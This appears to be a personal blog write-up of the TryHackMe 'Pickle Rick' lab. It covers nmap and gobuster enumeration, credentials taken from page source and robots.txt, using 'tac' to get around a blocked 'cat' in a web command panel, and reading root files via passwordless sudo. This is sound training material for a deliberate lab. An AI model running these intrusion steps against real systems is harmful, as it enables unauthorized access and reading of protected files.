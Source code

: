 ```yaml
---
title: TryHackMe - Pickle Rick
description: My writeup on Pickle Rick box.
categories:
 - tryhackme
tags: tryhackme tac gobuster filter php sudo
---
```


![](https://i.imgur.com/851RMUk.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Pickle Rick**  |
| Difficulty :  | **Easy**             |
| Play :    | [Pickle Rick](https://tryhackme.com/room/picklerick){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Happy new year everyone! First writeup of the year, an easy box that we have to bypass a simple filter so we can read files. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.200.154
$ nmap -sC -sV -oN nmap/picklerick.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 19:59 EET
Nmap scan report for 10.10.200.154 (10.10.200.154)
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 21:c1:3b:8c:51:40:61:bc:87:00:75:e6:31:85:1c:40 (RSA)
|   256 44:78:2f:5e:8b:d6:61:1f:d2:f3:31:bb:7c:a8:01:8b (ECDSA)
|_  256 53:e2:38:b6:83:25:7a:ae:47:3e:05:84:e9:5c:5c:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

Once we visit the website we can see a message that tells us to login into his computer and search for the last three secret ingredients for his pickle-reverse potion. Alright, checking the source code i found a username let's note it down `R1ckRul3s`:

```
$ curl -s http://$ip/               

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Let's fire up a `gobuster` scan now.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster.txt  
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

We have a login page awesome, checking the robots.txt i noticed a weird text message tried as password & i got in! `R1ckRul3:Wubbalubbadubdub`

Now we have access to a command panel and we can execute system commands:

![](https://i.imgur.com/wCVazqw.png)

## What is the first ingredient Rick needs?

Running `ls` we can see a file named `Sup3rS3cretPickl3Ingred.txt` we can read it from browser since it's under `/var/www/html`

```
$ curl -s http://$ip/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

## Whats the second ingredient Rick needs?

Searching around, i found under `/home/rick` the second ingredient. I tried to used `cat` on it but i got an error:

![](https://i.imgur.com/hnpQ8vr.png)

We can't use `cat` its disabled, but we can use lot of other methods. Like `nl` - `less` - `tac`

```
$ tac /home/rick/second\ ingredients
1 jerry tear
```

## Whats the final ingredient Rick needs?

Checking around for privesc, `sudo -l` says we can run all commands without entering a password.

```
Matching Defaults entries for www-data on ip-10-10-200-154.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-200-154.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

So let's read the final ingredient.

```
$ sudo ls /root
3rd.txt
snap

$ sudo tac /root/3rd.txt
3rd ingredients: fleeb juice
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
